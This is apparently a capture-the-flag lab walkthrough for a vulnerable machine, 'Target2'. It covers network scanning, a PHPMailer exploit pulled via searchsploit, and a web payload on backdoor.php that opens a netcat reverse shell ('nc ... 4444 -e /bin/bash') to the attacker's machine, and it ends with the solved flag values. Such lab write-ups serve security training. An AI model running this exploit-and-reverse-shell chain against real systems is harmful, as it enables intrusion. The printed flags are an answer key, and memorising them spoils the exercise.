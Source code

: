 # **TARGET 2 Offensive WalkThrough**

## Overview

You are working as a Security Engineer for X-CORP, supporting the SOC infrastructure. The SOC analysts have noticed some discrepancies with alerting in the Kibana system and the manager has asked the Security Engineering team to investigate.

To start, your team needs to confirm that newly created alerts are working. Once the alerts are verified to be working, you will monitor live traffic on the wire to detect any abnormalities that aren't reflected in the alerting system.

You will then report back all your findings to both the SOC manager and the Engineering Manager with appropriate analysis.

>##### Note: This walkthrough detail one method to exploit the vulnerable machine. There are several alternatives to explore.

---

Tools:

- Kali Linux
- Q shell
- Namp
- Nikto
- Gobuster
- FireFox Browser
- Searchsploit
- Bash Script
- NetCat

---

## **Walkthrough**

1. A glimpse at the Kali Linux machine IP and network addresses.

        ifconfig

    ![1](/Resources/Images/2/1.PNG)

2. Network FootPrinting (find machines on the network).

        nmap 192.168.1.0/24

    ![2](/Resources/Images/2/2.PNG)

3. Target2 fingerprinting (find services and ports on target2).

        nmap -sV 192.168.1.115 

    ![3](/Resources/Images/2/3.PNG)

4.  Look for Webserver vulnerabilities using Nikto.

        nikto -C all -h 192.168.1.115

    ![4](/Resources/Images/2/4.PNG)

5. Scan for paths using Gobuster.

        gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt dir -e -u http://192.168.1.115

    ![5](/Resources/Images/2/5.PNG)

6. Explore path `192.168.1.115/vendor/` using the browser.
   
        192.168.1.115/vendor/

    **PHPMAILER detected.**

    ![6](/Resources/Images/2/6.PNG)     
   
7. Double click "PATH".

    **flag1**

    ![7](/Resources/Images/2/7.PNG)

8. Double "Click SECURITY.md".

    **It reveals vulnerable versions of PHPMAILER.**

    ![8](/Resources/Images/2/8.PNG)    

9.  Double "Click VERSION".

    **It reveals the PHPMAILER version in use.**

    ![9](/Resources/Images/2/9.PNG)  

10. Search for scripts to exploit PHPMAILER with Searchsploit.

        searchsploit phpmailer

    ![10](/Resources/Images/2/10.PNG)  

11. A glance at script 40968.sh

        searchsploit phpmailer -x php/webapps/40968.sh     

    **Press "q" keyboard to quit view.**

    ![11](/Resources/Images/2/11.PNG) 

12. Download the script to the current folder.

        searchsploit phpmailer -m php/webapps/40968.sh

    ![12](/Resources/Images/2/12.PNG)

13. Authorize file to execute.

        sudo chmod 777 40968.sh

14. Run exploit.

        ./40968.sh 192.168.1.115

    ![13](/Resources/Images/2/13.PNG)

    > Note: PHPMAILER can be exploited. Nevertheless,  the shell from this script does not allow us to do much. After researching, "exploit.sh" was discovered. It allows for creating a more useful shell.

    Script: [exploit.sh](/Resources/files/exploit.sh)

15. Change the URL on the script.

        nano exploit.sh

    ##### Note: **To exit nano: "CTRL X", then "y" and "enter".**

    ![14](/Resources/Images/2/14.PNG)

16. Authorize file to execute.

         sudo chmod 777 exploit.sh

17. Execute the file.

        ./exploit.sh

    ![15](/Resources/Images/2/15.PNG)

18. Set Kali Linux Machine to listen using the NetCat command.

         nc -lnvp 4444

    ![16](/Resources/Images/2/16.PNG)

19. Make Target2 call the Kali Linux machine with the NetCat command embedded in the next payload after running it in the browser.

        192.168.1.115/backdoor.php?cmd=nc 192.168.1.101 4444 -e /bin/bash

    **Change the second IP address in the payload to the IP address of your own kali Linux machine.**

    ![17](/Resources/Images/2/17.PNG)

20. Look for flags.

        find /var/www -type f -iname 'flag*'

    **flag2 and flag3.**

    ![18](/Resources/Images/2/18.PNG)

21. Open the flag2 file.

        cat /var/www/flag2.txt

    **flag2**

    ![19](/Resources/Images/2/19.PNG)

23. Insert the path for flag 3 in the browser.

        http://192.168.1.115/wordpress/wp-content/uploads/2018/11/flag3.png

    **flag3**
    
    ![20](/Resources/Images/2/20.PNG)

# FLAGS

flag1{a2c1f66d28051bd3a5874b5b6r43e21}

flag2{6a8ed560f0b5358ecf844108048eb337}

flag3{a0f568aa9de277887f37730d71520d9b}